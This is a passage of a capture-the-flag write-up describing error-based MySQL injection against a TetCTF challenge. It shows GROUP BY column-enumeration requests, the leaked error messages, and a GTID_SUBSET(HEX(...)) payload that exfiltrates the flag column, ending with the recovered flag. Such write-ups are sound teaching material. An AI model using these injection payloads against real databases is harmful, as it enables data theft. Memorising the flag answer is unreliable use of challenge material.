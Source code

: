 Expression #2 of SELECT list is not in GROUP BY clause and contains nonaggregated column 'flag_here_hoho.flag_here_hihi.t_fl4g_name_su' which is not functionally dependent on columns in GROUP BY clause; this is incompatible with sql_mode=only_full_group_by

http://45.77.255.164/?id=1 group by 2

Expression #3 of SELECT list is not in GROUP BY clause and contains nonaggregated column 'flag_here_hoho.flag_here_hihi.t_fl4g_v3lue_su' which is not functionally dependent on columns in GROUP BY clause; this is incompatible with sql_mode=only_full_group_by

http://45.77.255.164/?id=1 group by 3

Expression #2 of SELECT list is not in GROUP BY clause and contains nonaggregated column 'flag_here_hoho.flag_here_hihi.t_fl4g_name_su' which is not functionally dependent on columns in GROUP BY clause; this is incompatible with sql_mode=only_full_group_by

http://45.77.255.164/?id=1 group by 4

Unknown column '4' in 'group statement'
```

With those statements we can check some column name such as: 

- t_fl4g_name_su
- t_fl4g_v3lue_su

Aparently t_fl4g_v3lue_su is the column which could contain the flag. Trying other techniques to retrieve the flag did not work:

```
1 || (select id,t_fl4g_name_su from flag_here_hihi limit 1)

Operand should contain 1 column(s)

1 || (select t_fl4g_v3lue_su from flag_here_hihi limit 1)
```

After sometime and advice I could realize that GTID_SUBSET can help us to retrieve the information from the query and leak it through the error message. GTID_SUBSET receives two parameters with the identifier of the databases and the number or a range of transactions which are compared. When we transform the query result into HEX, the GTID_SUBSET function will try to look for a databaset with that identifier, but since it doesn't find anything, an error will be returned, avoiding the fetch_array()[1] and displaying the indicated column in hexadecimal.

``` http://45.77.255.164/?id=GTID_SUBSET(HEX((SELECT t_fl4g_v3lue_su FROM flag_here_hihi LIMIT 1)),1) ```

Response:

```
Malformed GTID set specification '5465744354467B5F57334C6C4C6C4C6C6C6C5F506C343479597959797959595F3C335F76696E615F2A3130302A3238393034393631343435353534237D'.
```

``` TetCTF{_W3LlLlLlll_Pl44yYyYyyYY_<3_vina_*100*28904961445554#} ```


Thanks for reading and also thanks to [DawidTheCactus](https://ctftime.org/user/76466) who teached me interesting things!